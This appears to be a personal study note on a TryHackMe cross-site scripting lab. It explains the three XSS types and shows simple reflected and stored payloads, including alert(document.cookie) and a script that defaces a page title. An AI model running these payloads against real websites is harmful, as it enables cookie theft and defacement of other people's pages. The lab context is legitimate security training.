









# Cross-site Scripting (XSS)
Note:
- It's a vulnerability that allows attackers execute malicious code (JS, VB, Flash) on the client side.
- Three are types of XSS
	-  Stored XSS
	-  Reflected XSS
	-  DOM-based XSS
- Common XSS in web app uses JavaScript.

## Practical

### Reflected XSS




Source code:
```
<h6>You searched for: [Your input will be input directly in here]</h6>
```

With unsanitized user input, any malicous script can directly blend into page source code.

```
<h6><script>alert("Hello")</script></h6>
<h6><script>alert(window.location.hostname)</script></h6>
```

URL (THM deployed machine is tunneled to localhost)
```
http://localhost/reflected?keyword=%3Cscript%3Ealert%28%22Hello%22%29%3C%2Fscript%3E
```





### Stored XSS

My payload

```
<!-- html comment test -->
```



Steal user cookie

```
<script>alert(document.cookie)</script>
```



With stored xss, we can change the entire page element(even deface)

For example changing "XSS Playground" to "Defaced"

First, inspect the element we want to change.



We could use console for testing



Now we could add something like this to the comment section and post it.
```
<script>document.getElementById("thm-title").innerText = "I am a hacker"</script>
```




## Questions

